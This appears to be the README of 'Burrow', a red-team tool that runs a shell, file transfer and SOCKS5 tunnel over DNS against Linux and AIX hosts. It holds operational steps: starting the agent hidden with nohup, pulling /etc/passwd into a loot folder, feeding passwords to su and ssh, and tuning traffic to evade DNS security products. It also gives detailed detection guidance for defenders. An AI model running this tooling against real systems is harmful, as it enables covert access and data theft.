

<p align="center"></p>

```
 ____
| __ ) _   _ _ __ _ __ _____      __
|  _ \| | | | '__| '__/ _ \ \ /\ / /
| |_) | |_| | |  | | | (_) \ V  V /
|____/ \__,_|_|  |_|  \___/ \_/\_/    Shell and SOCKS over DNS for Linux and AIX
```

Burrow gives you a shell, file transfer and a SOCKS5 proxy on a Linux and AIX hosts
that can do nothing but resolve DNS names. The target side is one Perl
script that needs only core modules and `nslookup` (AIX and Linux
tested; a ksh fallback exists for hosts without Perl). The operator side
is one Python 3 file with no dependencies.

For authorised security testing only. Everything Burrow sends crosses
the target's resolver and its upstreams in clear text (hex and base64
inside DNS names and TXT answers), so treat the channel as monitored
and use it for the commands and evidence an engagement needs (section 12
lists what a defender sees).

| file | runs on | purpose |
|---|---|---|
| `burrow.py` | operator host | authoritative DNS responder, console, SOCKS5/port-forward listeners, file transfer |
| `burrowclient.pl` | target | agent: shell tasks, tunnel, `pty`, `get`/`put`, `probe` |
| `burrowclient.sh` | target | fallback agent for hosts without Perl: shell tasks only |
| `tests/` | operator host | loopback test scripts, no network needed |

## 1. Set up the DNS delegation

Burrow needs a subdomain whose nameserver is your host. You do this once
at the DNS provider of a domain you control; nothing on the target
changes.

1. **Pick names.** A zone for the channel, say `tunnel.example.com`,
   and a name for your server that is *not* inside that zone, say
   `ns1.example.com`. (If the nameserver name were inside the delegated
   zone you would need glue records; keeping it outside avoids that.)
2. **Add two records** at the DNS provider of `example.com`:
   ```
   ns1.example.com.      A    200.200.200.200        ; your server's public address
   tunnel.example.com.   NS   ns1.example.com.
   ```
3. **Open the ports** on the server's firewall or cloud security group:
   UDP 53 and TCP 53 inbound from anywhere. UDP carries almost
   everything; TCP carries answers that are too large for UDP (the
   resolver retries over TCP when it gets a truncated reply).
4. **Make port 53 available.** If a local stub resolver holds it
   (systemd-resolved on 127.0.0.53, dnsmasq), either bind Burrow to
   the server's own address with `--bind 200.200.200.200` or stop the
   stub. Burrow binds UDP with address reuse and, when the wildcard TCP
   bind is refused, falls back to the server's own address by itself.
5. **Check the delegation** from anywhere, after propagation (minutes
   to an hour):
   ```
   dig +short NS tunnel.example.com @8.8.8.8      # expect: ns1.example.com.
   dig +short A  ns1.example.com    @8.8.8.8      # expect: 200.200.200.200
   ```
6. **Check the path** once the server is running (next section):
   ```
   nslookup -querytype=TXT probe1.tunnel.example.com
   ```
   The console prints `[q] probe probe1.tunnel.example.com type 16 from
   resolver <ip>` the moment the query arrives, and nslookup shows
   `text = "ok"`. Use a fresh name for every test (probe2, probe3) so
   no resolver answers from its cache. Run the same command on the
   target before deploying anything: if it arrives, the agent will.

A domain registered days ago is often blocked by DNS security products
at corporate resolvers; use an established domain where you can. If a
TXT probe never arrives but an A probe does (`nslookup probe4.tunnel.example.com`),
TXT lookups are filtered on that path and the channel will not work there.

## 2. Run the server

```
sudo python3 burrow.py tunnel.example.com --ns ns1.example.com
```

| option | default | meaning |
|---|---|---|
| `--serve FILE` | `burrowclient.pl` | file served as hex chunks `f0, f1, ...` |
| `--bind ADDR`, `--port N` | all, 53 | DNS listeners |
| `--socks PORT`, `--forward L:H:R` | | open listeners at start (the console can do it later) |
| `--listen ADDR` | 127.0.0.1 | where SOCKS/forward listeners bind |
| `--log FILE`, `--no-log` | `burrow.log` | everything the console shows, with timestamps |
| `--history FILE` | `~/.burrow_history` | console history |
| `--no-tcp` | | do not listen on TCP |

Run it in tmux or screen so it survives your SSH session. Python 3.6 or
later; the console uses GNU readline when available.

## 3. Put the agent on the target

With file copy: copy `burrowclient.pl` and start it.

```
nohup perl burrowclient.pl tunnel.example.com </dev/null >/dev/null 2>&1 &
```

Arguments: `<zone> [poll_seconds] [resolver_ip] [resolver_port]`. The
resolver defaults to the first `nameserver` in `/etc/resolv.conf`.

Within a few seconds the console prints
`[+] new agent 7f3a1c: burrowclient.pl v2, queries arrive via resolver <ip>`.

## 4. Console

```
burrow> help
burrow> agents                 list agents, * marks the selected one
burrow> use 7f3a1c
burrow 7f3a1c> id              anything that is not a command runs on the agent with /bin/sh
burrow 7f3a1c> uname -a
```

Up/Down browse the history (kept across restarts), the usual readline
keys edit the line, Tab completes command names and agent ids, Ctrl-C
clears the line. Agent output and server messages appear above the
line you are typing. The log file holds all of it with timestamps.

| command | what it does |
|---|---|
| `agents` | agents seen, with kind, last poll, queued tasks, resolver |
| `use <id>` | select an agent |
| `info` | details of the selected agent, including whether its tunnel is polling |
| `sleep <s>` | idle poll interval of the agent (default 2 s, 0.2 to 3600) |
| `pty [-t secs] <command>` | run a command under a pseudo-terminal and type a password at its prompt |
| `get <remote> [local]` | copy a file from the target (default `./loot/<basename>`), MD5 checked |
| `put <local> <remote>` | copy a file to the target (it is written there) |
| `probe [sizes]` | which TXT answer sizes reach the agent, by nslookup, raw UDP and raw UDP with EDNS |
| `socks <port>` | SOCKS5 proxy on 127.0.0.1:port carried by the agent's tunnel; starts the tunnel if needed |
| `socks stop`, `socks status` | stop the proxy and the tunnel; show it |
| `forward <lport>:<host>:<rport>`, `forward stop <lport>` | plain port forward over the same tunnel |
| `streams` | listeners, tunnel clients and open connections with byte counts |
| `exit` | stop the selected agent (and its tunnel child) |
| `quit` | stop the server; agents keep polling and pick up again when it restarts |

Shell tasks: one command per task, output capped at 30 KB, killed
after 60 s on the agent. Commands longer than one DNS answer (about
300 bytes) are sent as a transfer automatically. Output travels at
about 90 bytes per lookup, so pipe big outputs through `head` or
`grep`.

## 5. SOCKS5 and port forwards

```
burrow 7f3a1c> socks 1080
SOCKS5 listening on 127.0.0.1:1080
queued task 12 for 7f3a1c: start the tunnel child; wait for '[tun] tunnel client 7f3a1c active'
tunnel started (pid 1234) as client 7f3a1c
[tun] tunnel client 7f3a1c active (raw mode, via resolver 10.0.0.53)
```

Then, on the operator host:

```
curl --socks5-hostname 127.0.0.1:1080 http://intranet.local/
proxychains4 -q ssh user@10.0.0.7            # proxychains.conf: socks5 127.0.0.1 1080
```

Hostnames given to the proxy resolve on the target. For tools without
SOCKS support use a forward:

```
burrow 7f3a1c> forward 15432:10.0.0.9:5432
psql -h 127.0.0.1 -p 15432 ...
```

From your workstation: `ssh -L 1080:127.0.0.1:1080 operator@server`
and point the tool at 127.0.0.1:1080 locally. `streams` shows what is
open; `socks stop` closes the listener and ends the tunnel child on the
target (the agent keeps running).

What to expect, measured on loopback with 120 ms of artificial delay:

| direction | carried in | rate |
|---|---|---|
| target to operator (responses, downloads) | A-query names, up to 32 in flight | about 16 KB/s |
| operator to target (requests, uploads) | poll answers, up to 4 in flight | about 6 KB/s |
| connect | | about one round trip |

With 2.4 s round trips an SSH handshake takes about a minute and
interactive SSH feels like 3 to 5 s per keystroke: use it for commands,
not for editing files.

How it copes with a bad path:

- Answer size is measured, not assumed. Answers start under 512 bytes
  with no EDNS, exactly what nslookup's queries look like; a single
  1000-byte test answer with EDNS decides whether big answers are used.
- Every poll answer stays cached on the server until the agent's next
  poll acknowledges it, so a lost or late answer is re-asked and comes
  back identical; data carries byte offsets, so repeats are harmless.
- A poll whose answer never comes back under its name is re-asked
  under a new name (defeats a resolver that cached a failure); an
  answer asked for five times is cut to the small size, ten times to
  120 characters, and the console says so. If re-asks fail too, the
  tunnel child switches from raw UDP to nslookup. `probe` tells you
  which sizes the path really passes.
- Unanswered queries are re-sent with the same ID after 2.5x the
  measured round trip.

Knobs, as environment variables when the agent is started (inherited
by its tunnel child): `TUNINFLIGHT` (upload queries in flight, 32),
`TUNPOLLS` (polls in flight with streams open, 4), `TUNPOLL` (poll
interval with streams open, 0.08 s), `TUNBIG=1` (skip the size test).
Lower values look less like a flood to a DNS security product.

## 6. Password prompts: `pty`

`su`, `ssh` and friends refuse a password from a pipe. `pty` runs the
command under a pseudo-terminal on the target, types the password at
the prompt once and returns the output:

```
burrow 7f3a1c> pty su - root -c "id"
password to type at the prompt (empty for none): ********
uid=0(root) gid=0(system)
[exit 0]
```

- The password is asked on the console, hidden, and travels inside the
  task like everything else; it is not in the target's process list.
- `-t SECONDS` limits the helper (default 35, max 50; the agent kills
  a task at 60 s). Wrap long jobs in `nohup ... > /tmp/x 2>&1 &`.
- The password is typed once. A second prompt means it was rejected
  and the command is stopped: nothing retries, so no account gets
  locked. ssh's host-key question is answered yes.
- `[exit N]` is the command's own status; 124 means the helper stopped
  it (timeout or rejected password).
- `pty tty` with an empty password just gives a command a terminal.

## 7. Files and diagnostics

```
burrow 7f3a1c> get /etc/passwd                      -> ./loot/passwd, MD5 verified
burrow 7f3a1c> get /var/log/app.log loot/app.log
burrow 7f3a1c> put ./script.sh /tmp/script.sh       written on the target: note it for cleanup
burrow 7f3a1c> probe                                sizes 120..1000 by default
```

`get` returns up to 256 KB per file (compress first for bigger ones).
`probe` prints a table like

```
  size  nslookup             raw udp              raw udp + edns
   120  ok 0.9s              ok 0.4s              ok 0.4s
   480  ok (tcp) 2.1s        truncated (TC)       ok 0.5s
  1000  -- no answer         truncated (TC)       -- no answer
```

"truncated" means the resolver wanted TCP for that size, "ok (tcp)"
that nslookup fetched it over TCP, "-- no answer" that nothing came
back: the path drops answers of that size and the tunnel must stay
below it. The server's `[z]` lines show which probes arrived at all.

## 8. Hosts without Perl

`burrowclient.sh` needs only ksh/sh, nslookup, awk, od, sed, tr and
grep. It runs shell tasks and `get` (via `cat`, 30 KB, no checksum) and
shows as "basic agent" in `agents`; `socks`, `pty`, `put`, `probe`,
`sleep` and long commands need the Perl agent, and the console says so.

## 9. If something stalls

1. `agents`: "last seen" growing means the agent is not reaching the
   server. Check the resolver path with a fresh probe name (section 1).
2. `streams`: "last poll Ns ago" growing for the tunnel client means
   the tunnel child is gone or stuck; `info` says whether the agent
   still reports it running. "unacked answers" growing means answers
   are not reaching it: run `probe` and read the `[tun]` lines
   (cut-down, re-ask, "switching to nslookup").
3. Start the agent with `BURROWDEBUG=1 ... 2>/tmp/burrow.err` when
   investigating; the tunnel child logs to the same file. Lines to
   look for: "re-asking under a new name", "switching to nslookup
   mode", "gap at N B never filled", "skipping ahead", "query
   unanswered 10 times" (rate limiting or tunnel detection at the
   resolver; restarting the agent gives it a new id and new names).
4. `burrow.log` on the operator host has everything the console showed.

## 10. Clean up

```
burrow 7f3a1c> socks stop
burrow 7f3a1c> exit
```

then remove what was written on the target (the agent file, anything
you `put`) and record the agent id, start and stop times, and every
host and port the tunnel was used for. On the operator host,
`burrow.log` and `loot/` are the evidence.

## 11. What a defender sees

Burrow does not try to hide. Everything below follows from the
protocol, so a blue team can test its monitoring against it and the
engagement report can say exactly what to look for.

**On the resolver and the network**

- One internal host asking, without pause, for names under a single
  external zone: a TXT query every 2 s while idle (`sleep` changes the
  interval; there is no jitter), then bursts while output, a file or the
  tunnel moves (up to 16 output uploads and 32 tunnel uploads in flight,
  tunnel polls every 0.08 s).
- Names that never repeat. Every query carries a random label, so the
  resolver cache never answers and each one goes out to your server.
  Names are long (up to 253 characters, labels up to 63) and made of
  hex and base32: high entropy, many labels, digits mixed into letters.
- Answers with TTL 0 on every record, A answers that are always
  `10.0.0.1`, TXT answers of 320 to 400 characters of base64 or hex,
  replies close to 512 bytes, some truncated and retried over TCP 53.
- TXT is rare in ordinary client traffic. A host doing hundreds of TXT
  lookups an hour, or thousands of unique subdomains under one zone,
  stands out in any per-client count.
- A zone delegated to a single nameserver that belongs to no provider,
  usually under a recently registered domain, with no ordinary records
  below it.
- Nothing is encrypted. Tasks are base64, output is hex, tunnel bytes
  are base32. The target's resolver, its forwarders and any DNS
  security service in the path hold the full content of the session in
  their query logs, and a defender with those logs can reconstruct every
  command and its output.

**On the target**

- A long-running `perl` process with the zone in its arguments
  (`perl /tmp/burrowclient.pl tunnel.example.com`), no controlling
  terminal, re-parented to init after the `nohup`, spawning a
  `sh -c` child for every task and `nslookup` children in fallback mode.
  A second `perl` child while the tunnel runs. In raw mode the process
  holds a UDP socket to the resolver's port 53 open.
  and `/tmp/bc.ok`. The agent writes nothing else.
- `pty` allocates a pseudo-terminal and a new session, so `su` and
  `ssh` run through it appear in `sulog`, `wtmp` and the auth logs like
  any interactive use.

**What stops it**

- Egress filtering on its own does not: the agent only ever talks to
  the resolver named in `/etc/resolv.conf`. The resolver is where
  Burrow is visible and where it can be cut: log queries with the
  client address, alert on unique-subdomain counts, TXT volume, name
  length and entropy per client per zone, rate-limit or deny TXT for
  hosts that have no need for it, and sinkhole the zone (RPZ) once it
  is known. Blocking young domains stops the delegation from being
  usable at all.
- On the host: a rule for a long-lived `perl` running as the
  application server's user, or `perl`/`sh` spawning `nslookup`
  repeatedly, and scripts under `/tmp`.
- For the report: record the zone, the agent id, start and stop times,
  the resolvers the traffic crossed and the query volume, so the client
  can find the same events in its DNS logs and tune its monitoring on
  real data.

## Protocol in one paragraph

All names are below the zone, TTL 0. The agent polls TXT
`<rand>.<id>.v2.<zone>` and gets `tid:<base64 task>` or `0`; output
goes back hex-encoded in A lookups `s<n>.<hex>...<tid>.<id>.o.<zone>`
with an end marker `e<n>`. Files and long tasks are served as hex
chunks `y<n>.<xid>.<zone>`. The tunnel polls TXT
`p<n>.a<ack>.<cap>.<id>.q.<zone>` for connect/data/close messages and
uploads bytes as base32 labels under `<id>.v.<zone>`. The top of
`burrow.py` has the full table.
